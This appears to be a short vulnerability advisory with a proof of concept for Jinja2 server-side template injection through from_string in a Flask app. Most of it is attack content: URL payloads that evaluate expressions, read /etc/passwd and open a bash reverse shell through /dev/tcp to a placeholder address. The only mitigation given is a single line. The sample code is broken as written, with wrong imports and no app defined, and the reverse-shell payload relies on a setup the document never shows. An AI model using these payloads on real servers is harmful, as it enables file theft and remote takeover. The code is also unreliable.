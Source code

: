 <div style="
    text-align: center;
">
<a href="https://ordina.nl" target="_blank"><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRBTgtBKmWL2i-76KccY9u0mrxAF9i0bPAJasA2YYeapgsL02AGlg" 
alt="Ordina  Research Lab" /></a>
</div>

#Jinja2 Command injection from_string function <br />
#Website: Ordina.nl <br />
Author: Jameel Nabbo   <br />
Email: jameel.nabbo[at]ordina.nl   <br />

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:

```python

import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

```


<b>POC</b>
//Exploiting the username param
http://localhost:4444/?username={{4*4}} <br />
OUTPUT: Hello 16

Reading the /etc/passwd <br />

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }} <br />


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
